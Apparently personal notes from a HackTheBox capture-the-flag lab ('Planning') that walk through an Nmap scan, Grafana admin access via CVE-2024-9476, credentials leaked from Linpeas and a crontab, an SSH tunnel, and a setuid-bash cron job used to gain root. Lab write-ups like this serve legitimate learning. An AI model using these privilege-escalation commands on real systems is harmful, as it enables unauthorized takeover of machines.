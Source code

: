 Info : credentials for the following account: admin / 0D5oT70Fq13EvB5r
Nmap scan . 

22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMv/TbRhuPIAz+BOq4x+61TDVtlp0CfnTA2y6mk03/g2CffQmx8EL/uYKHNYNdnkO7MO3DXpUbQGq1k2H6mP6Fg=
|   256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKpJkWOBF3N5HVlTJhPDWhOeW+p9G7f2E9JnYIhKs6R0
80/tcp open  http    syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://planning.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


Vhost scan :

![[Pasted image 20250913125830.png]]

![[Pasted image 20250913125932.png]]

Got admin access .

Discovered Version : 11.0.0

[

### CVE-2024-9476

](https://grafana.com/blog/2024/11/12/grafana-security-release-medium-severity-security-fix-for-cve-2024-9476/)

![[Pasted image 20250913130107.png]]


Got a shell .


Ran Linpeas 

GF_SECURITY_ADMIN_USER=enzo
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!


enzo@planning:/opt/crontabs$ cat crontab.db 
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}


numerated local services by running:

netstat -tupln

◄ 0s ○ ssh -L 9100:127.0.0.1:8000 enzo@10.10.11.68

Created an SSH tunnel to my machine 


Created a new JOB :
cp /bin/bash /tmp/bash && chmod u+s /tmp/bash

Did /tmp/bash -p to get Root !! .